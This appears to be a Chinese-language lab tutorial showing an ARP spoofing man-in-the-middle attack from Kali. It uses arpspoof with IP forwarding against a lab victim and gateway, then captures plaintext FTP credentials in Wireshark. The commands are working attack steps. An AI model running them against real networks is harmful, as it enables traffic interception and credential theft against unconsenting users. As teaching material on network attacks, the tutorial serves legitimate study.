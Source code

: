 ## Arpspoof + Wireshark 进行 arp 欺骗

启动 kali，安装 arpspoof 和 wireshark，如果有的话无需安装。

```sh
sudo apt-get install dsniff
sudo apt-get install wireshark
```

一般来说，此处可以进行 arp 断网攻击，但因为某些原因，导致这里的环境无法进行演示。

### 开启 arp 欺骗

先开启 kali 的路由转发功能：

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

原本的 0 代表着不开启路由转发功能。

开启 arp 欺骗，此时的受害机 **192.168.10.200** 是可以正常上网的，但**受害机所有的网络请求包都会流经攻击者**。

```sh
arpspoof -i eth0 -t 192.168.10.200 192.168.10.1
```

### 捕获数据包

因为上面已经演示过了，因此这里只作简单的文字描述。

1. 启动 wireshark 并选择刚刚进行 arp 欺骗时所选择的网卡 eth0.
2. 左上角点击开始捕获，启动 Windows 7，使用`ftp://192.168.10.66:21`访问 FTP 站点并输入账号密码，成功登录后返回 kali。
3. 暂停 wireshark 捕获数据包，并过滤除了 ftp 之外的所有数据包。
4. 找到含有用户名和密码的数据包。

![抓包成功2](https://gallery.yxzi.xyz/galleries/2022/06/15/%E6%8A%93%E5%8C%85%E6%88%90%E5%8A%9F2.png)

可以看到其中有两个数据包存储着我们刚刚输入的**明文用户名、密码**。

至此，我们成功模拟了一次 arp 欺骗攻击，并成功**嗅探目标主机的网络数据包**。